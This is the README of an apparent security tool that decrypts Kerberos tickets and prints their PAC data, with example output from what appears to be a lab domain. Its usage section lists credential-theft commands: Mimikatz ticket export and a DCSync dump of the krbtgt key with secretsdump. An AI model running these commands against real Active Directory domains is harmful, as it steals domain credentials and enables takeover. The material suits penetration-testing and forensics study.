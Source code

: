 # Kerberos Ticket Decryptor

## Overview

**Kerberos Ticket Decryptor** is a Python script designed to decrypt Kerberos TGT and Service Tickets for analysis and security research. It extracts authentication and PAC (Privilege Attribute Certificate) data, helping in forensic investigations and penetration testing.

## Features

- Supports decryption of **TGT** and **TGS** tickets.
- Extracts and displays **PAC data** (Effective Name, User ID, Group Memberships, etc.).
- Supports **ccache** and **kirbi** formats.
- Provides user account control flags and security identifiers translation.
- Handles AES-128, AES-256, and RC4-HMAC encryption.


## Installation

Clone the repository:

```sh
git clone https://github.com/yourusername/kerberos-ticket-decryptor.git
cd kerberos-ticket-decryptor
python3 -m virtualenv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

## Usage

### Obtain Kerberos Tickets

```bash
# Extract Kerberos tickets using Mimikatz
sekurlsa::tickets /export

# Convert to ccache format (optional):
kekeo "misc::convert ccache <ticketName.kirbi>"

# Extract the AES-256 key using DCSync:
secretsdump.py -just-dc-user krbtgt@<domain>
```

### Decrypting a Ticket

```bash
python3 krbdecrypt.py -k 15[...]8 -t randomuser.ccache
```

```bash
[+] TICKET LOADED SUCCESSFULLY
[+] DECRYPTING TICKET
[+] AUTHORIZATION DATA:

Client:          randomuser@DOLLARCORP.MONEYCORP.LOCAL
Server:          krbtgt/DOLLARCORP.MONEYCORP.LOCAL@DOLLARCORP.MONEYCORP.LOCAL
Domain Name:     DOLLARCORP.MONEYCORP.LOCAL
Signet User:     krbtgt
Ticket Type:     TGT
Encryption:      aes256-cts-hmac-sha1-96
Username:        randomuser
Auth Time:       2025.01.10 04:38:02
Start Time:      2025.01.10 04:38:02
End Time:        2035.01.08 04:38:02
Renew Time:      2035.01.08 04:38:02


[+] PAC DATA:

EffectiveName:            randomuser
FullName:                 N/A
LogonScript:              N/A
ProfilePath:              N/A
HomeDirectory:            N/A
HomeDirectoryDrive:       N/A
LogonCount:               500
BadPasswordCount:         0
UserId:                   500
UserSid:                  S-1-5-21-719815819-3726368948-3917688648-500
PrimaryGroupId:           513
GroupCount:               5
GroupIds:                 [513, 512, 520, 518, 519]
FriendlyGID:              Domain Users (513), Domain Admins (512), Group Policy Creator Owners (520), Schema Admins (518), Enterprise Admins (519)
UserFlags:                0
UserSessionKey:           b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
LogonServer:              N/A
LogonDomainName:          DOLLARCORP.MONEYCORP.LOCAL
DomainSid:                S-1-5-21-719815819-3726368948-3917688648
LMKey:                    b'\x00\x00\x00\x00\x00\x00\x00\x00'
UserAccountControl:       NORMAL_ACCOUNT, LOCKOUT
SubAuthStatus:            0
LastSuccessfulILogon:     0
LastFailedILogon:         0
FailedILogonCount:        0
Reserved3:                0
SidCount:                 0
ExtraSids:                
ResourceGroupDomainSid:   b''
ResourceGroupCount:       0
ResourceGroupIds:         b''
```
